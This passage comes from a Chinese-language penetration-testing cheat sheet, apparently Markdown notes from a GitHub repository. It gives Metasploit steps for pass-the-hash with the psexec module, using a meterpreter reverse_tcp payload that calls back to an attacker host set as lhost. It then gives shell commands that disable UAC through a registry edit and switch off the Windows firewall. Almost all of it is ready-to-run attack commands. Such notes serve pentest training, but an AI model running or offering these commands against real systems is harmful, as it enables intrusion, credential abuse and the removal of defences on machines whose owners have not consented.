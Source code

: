 - 哈希传递

  > 使用exploit/windows/smb/psexec模块
  >
  > 靶机必须开启445端口
  >
  > 用hash值登陆靶机，获取新session

  ```
  # msf > use exploit/windows/smb/psexec
  # msf exploit(psexec) > set payload windows/x64/meterpreter/reverse_tcp
  # msf exploit(psexec) > set lhost 192.168.11.128
  # msf exploit(psexec) > set rhost 192.168.11.133
  # msf exploit(psexec) > set smbuser 用户名
  # msf exploit(psexec) > set smbpass LM-Hash值:NT-Hash值
  # msf exploit(psexec) > exploit
  ```

### 关闭UAC、防火墙及杀毒软件

- 关闭UAC

  > 修改注册表后，需要重启生效

  ```
  # meterpreter > shell
  # C:\Users\win7\Desktop>reg.exe add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG DWORD /d 0 /f
  ```

  ![关闭UAC、防火墙及杀毒软件_1](./后渗透/关闭UAC、防火墙及杀毒软件_1.png)

- 关闭防火墙

  > 需要管理员权限

  ```
  # meterpreter > shell
  # C:\Users\win7\Desktop>netsh advfirewall set allprofiles state off
  ```

  ![关闭防火墙及杀毒软件_1](./后渗透/关闭UAC、防火墙及杀毒软件_2.png)
